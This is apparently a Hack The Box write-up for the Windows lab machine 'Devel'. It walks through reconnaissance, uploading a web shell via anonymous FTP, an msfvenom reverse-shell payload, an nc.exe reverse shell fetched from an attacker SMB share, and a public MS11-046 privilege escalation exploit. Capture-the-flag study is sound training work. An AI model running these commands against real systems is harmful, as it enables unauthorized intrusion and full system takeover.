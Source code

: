 ```yaml
---
title: Devel HTB (English)
image: /assets/img/Anexos/Pasted%20image%2020250410152509-1.png
description: Devel HTB Machine [Difuculty easy]
categories: [CTF,HackTheBox]
tags: [hacking,easy]
---
```




## Introduction

Devel, while relatively simple, demonstrates the security risks associated with some default program configurations. It is a beginner-level machine which can be completed using publicly available exploits. 

### Machine Description

![](/assets/img/Anexos/Pasted%20image%2020250410191300-1.png)

- Name: Devel
- Goal: Get two flags
- Difficulty: easy
- Operating System: Windows
- link: [Devel](https://app.hackthebox.com/machines/3)


### PDF Link
- PDF: [PDF Link](https://github.com/juanbelin/Writeups-CTFs-Challenges/blob/main/HTB/M%C3%A1quina%20Devel.pdf)



## Reconnaissance

We start executing `nmap` in order to know the ports and services running in the machine.

```shell
nmap -sSCV --min-rate=5000 -p- --open -n -Pn 10.10.10.5 -oN nmap.txt
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-10 15:24 CEST
Nmap scan report for 10.10.10.5
Host is up (0.043s latency).
Not shown: 65533 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: IIS7
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
Nmap report us the ports _21_(ftp) and _80_(http). In this scenario ftp allows anonymouys login so let's connect. 


```shell
ls
200 PORT command successful.
150 Opening ASCII mode data connection.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete
```

Once within ftp, we can see this files. This files seem to be from a web server. We confirm this watching this in the web:




![](/assets/img/Anexos/Pasted%20image%2020250410153112-1.png)

Curiously the main image has the same name as the ftp image so wen can start thinking that ftp is using the web directory.

As it's using IIS we must use a _.aspx_ in order to gain a reverse shell.

![](/assets/img/Anexos/Pasted%20image%2020250410154506-1.png)


## Explotation
I made the next payload using `msfvenom`

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.16.4  LPORT=4444 -f aspx >reverse.aspx
```


Then I upload it using ftp



![](/assets/img/Anexos/Pasted%20image%2020250410154021-1.png)

> This didn't work, when I finished the machine I realized it was because I should have used meterpreter xd, so I did it with:


I copy this _cmd.aspx_

```shell
cp /usr/share/wordlists/seclists/Web-Shells/FuzzDB/cmd.aspx .
```

Then I upload it 
```shell
ftp> put cmd.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1442 bytes sent in 0.000594 seconds (2.32 Mbytes/s)
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
04-10-25  05:51PM                 1442 cmd.aspx
```

Now we have RCE. The next step is gaining a reverse shell.

![](/assets/img/Anexos/Pasted%20image%2020250410165207-1.png)


`nc` is not installed in Windows by default, so I just copy it from **seclist** and while I'm sharing the file using `impacket`, I execute it remotely using the `cmd.aspx` in order to get a reverse shell.
```shell
cp /usr/share/wordlists/seclists/Web-Shells/FuzzDB/nc.exe .
```

```shell
\\10.10.16.4\smbFolder\nc.exe -e cmd 10.10.16.4 4444 
```


![](/assets/img/Anexos/Pasted%20image%2020250410165637-1.png)

## Privilage Escalation
Now I'm in, I run `systeminfo` to know if it can be vulnerable. 
```
c:\windows\system32\inetsrv>systeminfo
systeminfo

Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:   
Product ID:                55041-051-0948536-86302
Original Install Date:     17/3/2017, 4:17:31 ��
System Boot Time:          10/4/2025, 2:09:42 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2595 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/11/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     3.071 MB
Available Physical Memory: 2.292 MB
Virtual Memory: Max Size:  6.141 MB
Virtual Memory: Available: 5.373 MB
Virtual Memory: In Use:    768 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection 4
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.5
                                 [02]: fe80::4d6a:f8a6:c841:598a
                                 [03]: dead:beef::9556:9677:a8ff:c58e
                                 [04]: dead:beef::4d6a:f8a6:c841:598a

c:\windows\system32\inetsrv>wget
wget
'wget' is not recognized as an internal or external command,
operable program or batch file.
```

Searching in google I figure out this version is vulnerable. I use the next POC to exploit:

> [](https://github.com/n3rdh4x0r/CVE-2011-1249?tab=readme-ov-file)

```shell
 wget https://raw.githubusercontent.com/n3rdh4x0r/CVE-2011-1249/refs/heads/main/40564.c
```

```shell
i686-w64-mingw32-gcc 40564.c -o newshell.exe -lws2_32
```

Now I use `impacket` again to share it using smb.

![](/assets/img/Anexos/Pasted%20image%2020250410173202-1.png)

But didn't work lmao, so I changed to this one:

- [](https://github.com/am0nsec/exploit/blob/master/windows/privs/MS11-046/ms11-046.exe)


```powershell
C:\Users\Public>copy \\10.10.16.4\smbFolder\ms11-046.exe virus.exe
copy \\10.10.16.4\smbFolder\ms11-046.exe virus.exe
        1 file(s) copied.
```

```powershell
C:\Users\Public>.\virus.exe
.\virus.exe

c:\Windows\System32>whoami
whoami
nt authority\system
```
And were root.



